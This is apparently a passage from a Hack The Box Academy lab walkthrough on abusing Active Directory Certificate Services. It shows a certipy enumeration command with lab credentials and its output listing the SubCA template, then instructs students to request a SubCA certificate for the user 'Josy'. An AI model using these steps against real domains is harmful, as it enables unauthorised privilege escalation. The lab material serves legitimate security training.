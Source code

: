 Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -enabled -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.130.56 -enabled -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
<SNIP>
 4
    Template Name                       : SubCA
    Display Name                        : Subordinate Certification Authority
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Enterprise Admins
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
```

Therefore, students need to use the `req` command of `certipy`, specifying the template `SubCA` for the `-template` option and the `UPN` `Josy` for the `-upn` option (when prompted to save the private key, students can either answer with yes or no, however, remembering the `Request ID` is important):
